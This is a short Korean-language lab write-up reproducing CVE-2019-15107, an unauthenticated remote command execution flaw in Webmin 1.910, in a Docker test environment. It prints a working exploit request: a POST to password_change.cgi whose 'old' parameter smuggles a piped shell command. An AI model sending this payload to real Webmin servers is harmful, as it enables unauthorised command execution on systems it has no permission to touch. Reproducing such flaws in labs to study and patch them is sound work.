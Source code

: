 # Webmin Pre-Auth 원격 코드 실행 취약점 (CVE-2019-15107)

> [류석준 (@seory0)](https://github.com/seory0)

<br>

### 요약
- Webmin은 유닉스 계열 시스템을 위한 웹 기반 시스템 구성 도구
- **비인증 사용자**가 **패스워드 재설정 페이지**를 통해 단순한 POST 요청만으로 임의 명령어를 실행 가능

<br>

### 참고 자료
- <https://github.com/vulhub/vulhub/tree/master/webmin/CVE-2019-15107>
- <https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html>
- <https://www.exploit-db.com/exploits/47230>
- <https://blog.firosolutions.com/exploits/webmin/>

<br>

### 환경 구성 및 실행
- 아래 명령어로 테스트 환경 실행
```bash
docker compose up -d
```
- `https://localhost:10000`에 접속하여 Webmin 로그인 페이지 확인(꼭 https로 접속할 것!)
- 다음과 같은 로그인 페이 확인 가능
![](/webmin/1.png)
- 다음과 같은 **POST 요청**을 보내면 `id` 명령어가 실행
```http
POST /password_change.cgi HTTP/1.1
Host: your-ip:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```
<br>

### 결과

![](/webmin/2.png)

<br>

### 정리

Webmin 1.910 버전은 인증되지 않은 공격자가 임의로 코드를 실행할 수 있다. POST 요청에 조작된 `old` 파라미터를 삽입하여 시스템 명령어를 실행할 수 있다. 안전한 웹 서비스 운영을 위해 주기적인 웹 서비스 업데이트가 필요하다.